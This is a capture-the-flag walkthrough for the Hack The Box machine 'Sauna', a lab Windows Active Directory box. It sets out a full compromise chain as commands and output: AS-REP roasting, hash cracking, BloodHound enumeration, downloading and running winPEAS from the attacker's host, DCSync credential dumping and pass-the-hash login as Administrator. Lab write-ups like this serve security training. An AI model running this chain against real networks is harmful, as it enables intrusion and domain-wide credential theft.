

# Target
| Category          | Details                                            |
|-------------------|----------------------------------------------------|
| 📝 **Name**       | [Sauna](https://app.hackthebox.com/machines/Sauna) |  
| 🏷 **Type**       | HTB Machine                                        |
| 🖥️ **OS**        | Windows                                            |
| 🎯 **Difficulty** | Easy                                               |

# Scan
```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-11 18:20:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
```

# Attack path
1. [Gain foothold by AS-REP Roasting usernames based on names of bank employees](#gain-foothold-by-as-rep-roasting-usernames-based-on-names-of-bank-employees)
2. [Enumerate Active Directory with BloodHound](#enumerate-active-directory-with-bloodhound)
3. [Escalate to `svc_loanmgr` using discovered credentials](#escalate-to-svc_loanmgr-using-discovered-credentials)
4. [Escalate to `Administrator` user with DCSync attack as `svc_loanmgr`](#escalate-to-administrator-user-with-dcsync-attack-as-svc_loanmgr)

### Gain foothold by AS-REP Roasting usernames based on names of bank employees

#### Prepare list of potential employees based `about.html` page
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ cat > employees.txt <<EOF
Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Taylor
Sophie Driver
EOF
```

#### Prepare list of potential usernames based on list of potential employees
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ ~/Tools/username-anarchy/username-anarchy --input-file employees.txt > users.txt
```

#### Perform AS-REP Roasting against prepared usernames
```
──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ impacket-GetNPUsers egotistical-bank.local/ -usersfile users.txt -outputfile hashes.txt -format hashcat -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
<SNIP>
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:a8d77bdc5cd71c05dd09b7cec9b959e3$28071721d3850d8d75248dc7affc392f51333e23a723e39089d2ba847600a7559c4ae69265361da0e4ae93782e77dc7bb771302deeebd1ce4e98c016c391db769b67c27e04b613b981a8734d412e747fde8e10b546cbc703bb1ff911c6ab2740ec80755855f23c37192b4d7a35e1375e43cc9472b2516c413ac49421e50912f97509a491315149f506a36d6da558235924cbf5de77a97d52b1831c8ca8f00c20ba652e907cad5f96d3f8190c47bb1136865273af7bcdb5e869c35a23d5cc6e3b15ba10e6635c566e4b6d038933ba603d0828903a1d99ca28576cb16e0ae2af7ef222459891286f54c50dfc9258c7429ed7257e1f222db3403fc845b11581e869
<SNIP>
```

#### Crack password for `fsmith`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ hashcat -m 18200 --quiet hashes.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:a8d77bdc5cd71c05dd09b7cec9b959e3$28071721d3850d8d75248dc7affc392f51333e23a723e39089d2ba847600a7559c4ae69265361da0e4ae93782e77dc7bb771302deeebd1ce4e98c016c391db769b67c27e04b613b981a8734d412e747fde8e10b546cbc703bb1ff911c6ab2740ec80755855f23c37192b4d7a35e1375e43cc9472b2516c413ac49421e50912f97509a491315149f506a36d6da558235924cbf5de77a97d52b1831c8ca8f00c20ba652e907cad5f96d3f8190c47bb1136865273af7bcdb5e869c35a23d5cc6e3b15ba10e6635c566e4b6d038933ba603d0828903a1d99ca28576cb16e0ae2af7ef222459891286f54c50dfc9258c7429ed7257e1f222db3403fc845b11581e869:Thestrokes23
```

### Enumerate Active Directory with BloodHound

#### Collect data
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ ~/Tools/BloodHound.py/bloodhound.py -d egotistical-bank.local -u fsmith -p Thestrokes23 -c All -ns $TARGET
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (SAUNA.EGOTISTICAL-BANK.LOCAL:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 05S
```

#### Run BloodHound and import data
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ curl -s -L https://ghst.ly/getbhce > docker-compose.yml && \
sudo docker compose up
```

#### Identify DCSync PE vector for `svc_loanmgr` user 


### Escalate to `svc_loanmgr` using discovered credentials

#### Host `winPEASx64.exe`
```
┌──(magicrc㉿perun)-[~/Tools/PEAS]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Download and execute `winPEASx64.exe` 
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ evil-winrm -i egotistical-bank.local -u fsmith -p Thestrokes23
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> wget http://10.10.14.161:8000/winPEASx64.exe -out winPEASx64.exe
*Evil-WinRM* PS C:\Users\FSmith\Documents> ./winPEASx64.exe
<SNIP>
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
<SNIP>
```

#### Reuse discovered credentials for `svc_loanmgr` user
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ evil-winrm -i $TARGET -u svc_loanmgr -p Moneymakestheworldgoround!
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```

### Escalate to `Administrator` user with DCSync attack as `svc_loanmgr`

#### Extract `Administrator` NTLM hash

```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ impacket-secretsdump -just-dc 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@egotistical-bank.local'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:931ff4376a2a006e639f9ab1fa2f800e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:0bb88eff7fdb1ba416af8782d511aea15d2c4e8dc69aa4df5d1c47628157155b
SAUNA$:aes128-cts-hmac-sha1-96:827de964df358ccb2eb37fd278af163b
SAUNA$:des-cbc-md5:2c700d670491ad46
[*] Cleaning up... 
```

#### Use extracted hash to gain remote access
```
┌──(magicrc㉿perun)-[~/attack/HTB Sauna]
└─$ evil-winrm -i egotistical-bank.local -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
```